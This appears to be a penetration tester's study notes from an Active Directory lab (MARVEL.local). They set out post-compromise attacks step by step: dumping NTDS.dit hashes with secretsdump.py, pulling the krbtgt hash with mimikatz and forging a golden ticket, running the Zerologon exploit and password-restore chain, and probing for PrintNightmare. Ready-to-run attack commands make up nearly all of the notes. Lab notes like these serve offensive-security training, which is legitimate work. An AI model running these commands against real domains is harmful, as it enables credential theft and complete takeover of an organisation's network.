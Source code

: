 # After compromising Domain

Dumping NTDS.dit=>
```bash
secretsdump.py MARVEL.local/pparker:'Password2'@192.168.138.132 -just-dc-ntlm 
```

Golden Ticket Attacks=>

1.First, we get NTLM hash ,SID and relative ID of krbtgt account from KDC
```bash
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:krbtgt
```

2.Then using above creds, we just create golden ticket.
```bash
kerberos::golden /User:Administrator /domain:marvel.local /sid:[SID_VALUE] /krbtgt:[KRBTGT_NTLM_HASH] /id:[RELATIVE_ID] /ptt
```

# Additional AD attacks

CVE-2020-1472=> This is Abusing **Zerologon**.

URL=>https://github.com/SecuraBV/CVE-2020-1472

How to do=>

1.We get Administrator hash from here
```bash
secretsdump.py -just-dc MARVEL/HYDRA-DC\$@192.168.138.132
```

2.Now ,we need to get 'plain_password_hex' by using hash in below format.
```bash
secretsdump.py administrator@192.168.138.132 --hashes [LM:NTLM_HASH]
```

3.Now, we use script from Github as below
```bash
python3 restorepassword.py MARVEL/HYDRA-DC@HYDRA-DC -target-ip 192.168.138.132 -hexpass [HEX_VALUE]
```


CVE-2021-1675=> This is **PrintNightmare**

URL=https://github.com/cube0x0/CVE-2021-1675

How to check this=> For this, we use rpcdump.py script
```bash
rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'
```

# AD Case Studies

Case 1: https://tcm-sec.com/pentest-tales-001-you-spent-how-much-on-security
Case 2: https://tcm-sec.com/pentest-tales-002-digging-deep
